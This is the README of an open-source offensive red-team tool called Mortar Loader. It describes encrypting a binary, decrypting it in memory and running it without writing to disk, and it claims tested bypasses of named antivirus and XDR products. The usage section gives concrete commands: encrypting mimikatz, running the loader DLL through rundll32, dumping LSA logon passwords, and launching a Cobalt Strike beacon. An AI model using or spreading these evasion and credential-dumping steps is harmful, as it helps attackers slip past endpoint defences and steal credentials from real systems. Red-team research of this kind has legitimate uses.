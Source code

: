 # Mortar Loader 

red teaming evasion technique to defeat and divert detection and prevention of security products.Mortar Loader performs encryption and decryption of selected binary inside the memory streams and execute it directly with out writing any malicious indicator into the hard-drive. 
Mortar is able to bypass modern anti-virus products and advanced XDR solutions and it has been tested and confirmed bypass for the following: 

* Kaspersky :heavy_check_mark:
* ESET :heavy_check_mark:
* Malewarebytes :heavy_check_mark:
* Mcafee :heavy_check_mark:
* Windows defender :heavy_check_mark:
* Cylance:heavy_check_mark:
* TrendMicro :heavy_check_mark:
* Bitdefender :heavy_check_mark:
* Norton Symantec :heavy_check_mark:

detailed research and techniques : https://0xsp.com/security%20research%20&%20development%20(SRD)/defeat-the-castle-bypass-av-advanced-xdr-solutions

Mortar Loader v2 features : https://0xsp.com/offensive/mortar-loader-v2/

CrestCon Asia 2021 talk : https://www.youtube.com/watch?v=H7EMBz7GLMk

# Usage 

## Encryptor 

```
root@kali>./encryptor -f mimikatz.exe -o bin.enc 

```

## Loader (DLL)

directly execute the agressor.dll using rundll32 or any DLL injection technique you prefer 

```
rundll32.exe agressor.dll,start
```

for shellcode running 
```
rundll32 agressor.dll,sh
```
## Loader (EXE) ( HAS BEEN REMOVED IN V2)
the executable version has more options you can use, as you able to pass commands for the loaded binary

```
##Mimikatz dump LSA 
deliver.exe -d -c sekurlsa::logonpasswords -f mimikatz.enc 

## Cobalt strike beacon 
deliver.exe -d -f cobalt.enc 

```
# Compiling the Loader (windows only)
the project has been coded using FPC(Free Pascal), the compiling procedures are straightforward by downloading and installing Lazarus IDE (https://www.lazarus-ide.org/index.php?page=downloads).


# Compiling Encryptor(Linux/BSD/Arm/MacOS//windows)
either by downloading and installing Lazarus-IDE from the official site(https://www.lazarus-ide.org/index.php?page=downloads)

```
#Debian & Ubuntu 

apt install fpc 
apt install lazarus-ide 

```
# Support the research 
if you think you have benefited from this open-source project and want more updates in the future, please mind time and efforts by making a donation
https://donorbox.org/support-0xsp







